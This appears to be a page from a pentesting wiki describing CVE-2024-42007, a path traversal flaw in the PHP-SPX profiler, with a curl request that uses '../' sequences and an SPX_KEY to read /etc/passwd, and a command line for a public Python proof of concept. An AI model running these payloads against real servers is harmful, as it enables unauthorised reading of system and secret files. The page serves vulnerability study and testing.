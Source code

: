 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# php-spx

[PHP-SPX](https://github.com/NoiseByNorthwest/php-spx) is a lightweight, open-source PHP profiling tool designed to help developers analyze and debug application performance. It integrates with PHP applications to collect detailed runtime metrics such as function call counts, execution times, and memory usage. PHP-SPX provides a web-based interface for visualizing this data, enabling easy identification of bottlenecks and optimization opportunities without significant overhead or complex setup.

## Local File Inclusion

{% hint style="info" %}
Based on the [Journey to discovery and exploitation of path traversal in PHP-SPX (CVE-2024-42007)](https://www.vicarius.io/vsociety/posts/journey-to-discovery-and-exploitation-of-path-traversal-in-php-spx-cve-2024-42007) blog post by secatgourity.
{% endhint %}

PHP-SPX versions up to `0.4.15` are affected by a path traversal vulnerability ([CVE-2024-42007](https://nvd.nist.gov/vuln/detail/CVE-2024-42007)) allowing unauthenticated attackers to read arbitrary files from the server. This issue arises from improper sanitization of the `SPX_UI_URI` parameter.&#x20;

Exploitation requires crafting a specially formatted request to the vulnerable endpoint, leveraging the traversal flaw to specify the target file's path. Note that the `SPX_KEY`, a **secret token** used to authenticate requests to the profiler UI/API, will need to be inlcuded in the request (e.g. via `phpinfo.php`) as mentioned in the [official documentation](https://github.com/NoiseByNorthwest/php-spx?tab=readme-ov-file#basic-usage):

> Just open with your browser the following URL: `http://localhost/?SPX_KEY=dev&SPX_UI_URI=/` to access to the web UI [control panel](https://github.com/NoiseByNorthwest/php-spx?tab=readme-ov-file#control-panel).

<figure><img src="../../../.gitbook/assets/spxkey_var.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Manual request
$ curl -s --path-as-is "http://spx/index.php/?SPX_KEY=a2a90ca2f9f0ea04d267b16fb8e63800&SPX_UI_URI=/../../../../../../../etc/passwd"
```
{% endcode %}

A Python-based [PoC](https://github.com/BubblyCola/CVE_2024_42007) exploit exists that demonstrates that automates the process, facilitating the extraction of sensitive information remotely.

```bash
python3 CVE_2024_42007.py -t http://spx -f /etc/passwd
```
